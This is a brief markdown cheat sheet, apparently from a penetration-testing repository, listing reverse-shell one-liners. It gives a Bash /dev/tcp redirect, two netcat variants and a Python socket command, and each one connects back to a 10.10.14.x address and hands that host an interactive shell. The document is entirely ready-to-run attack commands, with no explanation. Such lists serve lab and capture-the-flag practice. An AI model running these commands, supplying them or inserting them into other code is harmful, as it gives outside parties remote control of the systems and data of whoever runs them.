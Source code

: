 # Reverse Shells

----------------------------------------------------


### Bash  
`bash -i >& /dev/tcp/10.10.14.10/1234 0>&1`

### Netcat  
`nc -e /bin/bash 10.10.14.5 4444`

### Netcat(2)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f`

### Python 
`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
